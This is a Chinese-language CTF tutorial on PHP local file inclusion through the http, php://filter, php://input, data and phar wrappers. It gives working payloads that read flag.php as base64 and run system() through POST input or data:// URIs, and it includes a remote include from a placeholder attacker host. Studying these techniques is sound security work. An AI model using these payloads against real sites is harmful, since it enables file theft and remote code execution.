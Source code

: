 ## 本地文件包含

### 无限制本地文件包含
    
#### 利用协议

##### http协议

举例

    ?file=http://www.攻击者IP.com/1.txt
    
1.txt的内容为`<?php system('tac flag.php');?>`

##### php协议

对allow_url_fopen和allow_url_include是否要求开启

    协议              作用                      allow_url_fopen     allow_url_include
    php://stdin     只读的协议                       on/off              on
    php://stdout	只写的协议                       on/off              on/off
    php ://stderr	只写的协议                       on/off              on/off
    php://filter	本地磁盘文件进行读取              on                  on/off
    php://input     可以访问请求的原始数据的只读流     on/off              on
    php://memory	                                                    on
    php://temp	                                                    on

举例

php://filter 可以利用它进行任意文件读取

    ?file=php://filter/read=convert.base64-encode/resource=flag.php
    
得到的结果要用base64解码

php://input 可以直接读取到POST上没有经过解析的原始数据，将post请求中的数据作为PHP代码执行。

不过在enctype="multipart/form-data"的时候php://input 是无效的。

    ?file=php://input post:<?php system('tac flag.php');?>
    
##### data协议

data://伪协议 是执行文件的包含方法包含了你的输入流

前提

allow_url_fopen ：on，allow_url_include：on

举例

    ?file=data://text/plain,<?=system('tac flag.*');?>
    
    ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
    
##### phar协议

这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压
